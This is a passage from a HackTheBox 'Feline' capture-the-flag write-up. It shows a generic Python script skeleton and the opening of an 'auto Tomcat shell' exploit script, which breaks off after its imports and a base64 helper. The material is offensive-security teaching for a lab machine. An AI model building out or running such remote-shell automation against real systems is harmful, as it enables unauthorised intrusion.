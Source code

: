 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2010:18:53.png)

Upload and execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2010:19:57.png)

Sure! Let's automate the whole things now!

# Tomcat Auto Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-10-HackTheBox-Feline/2021-10-10-HackTheBox-Feline%2010:52:05.png)

tomcat_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Tomcat Shell - Feline HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
#B64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()

```